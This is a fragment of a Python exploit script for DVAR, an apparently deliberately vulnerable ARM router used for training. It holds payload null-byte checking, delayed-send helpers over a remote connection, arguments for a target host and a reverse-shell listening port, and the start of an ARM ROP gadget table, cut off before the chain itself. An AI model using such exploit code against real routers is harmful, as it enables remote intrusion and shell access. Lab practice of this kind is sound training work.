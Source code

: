 ```python

def check_null_bytes(data):
    if b'\x00' in data:
        from termcolor import colored
        print("payload contains null bytes")
        print("[payload]\n")
        payload = 'ff' + data.hex()
        # chunk by byte (2 characters) and iterate
        for i in range(0, len(payload), 2):
            if i != 0 and (i % (4*2)) == 0:
                print()
            if payload[i:i+2] == '00':
                print(colored(payload[i:i+2], 'red'), end='')
            else:
                print(payload[i:i+2], end='')
        print()
        return True
    return False 


def _send_delayed_routine(p, data, delay=1.0):
    time.sleep(delay)
    print(f"Sending {len(data)} bytes")
    p.send(data)

def send_delayed(p, data, delay=1.0):
    thread = threading.Thread(target=_send_delayed_routine, args=(p,data, delay,))
    thread.start()
    return thread

    


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description="Exploit for DVAR")

    subparsers = parser.add_subparsers(dest="command")
    
    miniweb_parser = subparsers.add_parser("miniweb", help="Run miniweb")

    parser.add_argument("-H", "--host", type=parse_host, default=HOST, required=True, help="Target host (format = <ip>:<port>)")

    parser.add_argument("-l", "--listen", type=int, default=1337, help="Port to listen on for reverse shell connection")
    
    args = parser.parse_args()

    p = remote(args.host[0], args.host[1])
    
    if args.command == "miniweb":

        variables = {
            "g_pop_r4": g_pop_r4_ea,
            "g_mov_r0_r4": g_mov_r0_r4_ea,
            "g_ldr_r0_r4": g_ldr_r0_r4_ea,
            "g_mov_r0_0": g_mov_r0_0_ea,
            "g_pop_r1": g_pop_r1_ea,
            "g_add_r0_2": g_add_r0_2_ea,
            "g_add_r1_1": g_add_r1_1_ea,
            "g_add_r1_1_with_cmp": g_add_r1_1_with_cmp_ea,
            "g_mov_r1_0": g_mov_r1_0_ea,
```